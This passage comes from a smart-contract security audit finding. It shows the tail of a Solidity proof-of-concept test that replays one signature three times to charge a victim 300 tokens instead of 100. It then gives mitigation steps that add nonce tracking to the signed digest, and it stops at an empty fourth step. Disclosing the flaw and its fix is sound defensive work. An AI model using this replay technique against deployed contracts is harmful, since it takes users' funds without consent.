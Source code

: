 ```solidity
            base64Proposal,
            address(0), // No private worker
            serverURL,
            tokenAddress,
            signature
        );
        
        // Third replay of the same signature - also succeeds
        bytes32 requestID3 = blueprint.createAgentWithTokenWithSig(
            projectId,
            base64Proposal,
            address(0), // No private worker
            serverURL,
            tokenAddress,
            signature
        );
        
        vm.stopPrank();
        
        // All operations succeed with different requestIDs
        assertTrue(requestID1 != requestID2);
        assertTrue(requestID2 != requestID3);
        
        // Victim has been charged multiple times (300 tokens instead of 100)
        assertEq(IERC20(tokenAddress).balanceOf(victim), 10000 - 300);
    }
}
```

### Mitigation

1. Add Nonce Tracking:
```solidity
// Track nonces per address
mapping(address => uint256) public nonces;
```
2. Update Typehash Definitions:
```solidity
bytes32 public constant DEPLOYMENT_REQUEST_TYPEHASH =
    keccak256("DeploymentRequest(bytes32 projectId,string base64RecParam,string serverURL,uint256 nonce)");
```
3. Include Nonce in Digest Generation:
```solidity
function getRequestDeploymentDigest(bytes32 projectId, string memory base64RecParam, string memory serverURL, address signer)
    public
    view
    returns (bytes32)
{
    bytes32 structHash = keccak256(
        abi.encode(
            DEPLOYMENT_REQUEST_TYPEHASH, 
            projectId, 
            keccak256(bytes(base64RecParam)), 
            keccak256(bytes(serverURL)),
            nonces[signer]
        )
    );

    return _hashTypedDataV4(structHash);
}
```
4. Implement Signature Consumption:
```solidity
```